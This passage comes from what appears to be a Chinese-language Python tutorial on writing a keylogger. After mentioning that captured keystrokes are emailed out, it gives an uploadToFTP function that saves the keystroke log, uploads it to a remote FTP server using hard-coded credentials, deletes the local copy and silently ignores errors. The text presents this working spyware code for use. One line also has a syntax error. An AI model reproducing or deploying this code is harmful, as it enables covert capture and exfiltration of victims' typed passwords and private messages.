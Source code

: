 现在，当日志文件中有 1000 个字符时，这会将击键发送到指定的电子邮件 ID。同样，我们可以添加一种方法将文件上载到 FTP 服务器。这里我们需要导入`ftplib`模块和`os`模块：

```
import ftplib 
import os 

```

然后，定义将文件上载到 FTP 服务器的方法

```
def uploadToFTP(data,to): 
    # Write data to a file 
    fileName="log-"+str(datetime.datetime.now()+".txt" 
    logFile=open(fileName,"a") 
    logFile.write(data) 
    logFile.close() 

    try: 
        # Provide FTP server address 
        server = 'yourdomain.com' 
        # Your FTP username 
        username = 'keylogger' 
        # Your FTP password 
        password = 'asd123' 
        # SSL state, set 1 if SSL enabled in server 
        SSL = 0 
        # FTP Directory to upload the file 
        directory = "/"  
        # Create normal FTP connection If SSL disabled 
        if SSL==0: 
            connection=ftplib.FTP(server,username,password) 
        # Create SSL enabled FTP connection 
        elif SSL==1: 
            connection=ftplib.FTP_TLS(server,username,password) 

        # Change directory in FTP connection 
        connection.cwd(directory) 
        # Open the log file 

        logFile=open(fileName,'rb') 
        # Upload the file to FTP server 
        connection.storbinary('STOR' +' '+fileName,logFile) 
        # Close the FTP connection 
        connection.quit() 
        # Close the log file 
        logFile.close() 
        # Delete the temporary log file 
        os.remove(fileName) 
    except: 
        pass
```

现在我们可以在`OnKeyboardEvent`函数中使用此方法将击键上传到 FTP 服务器。
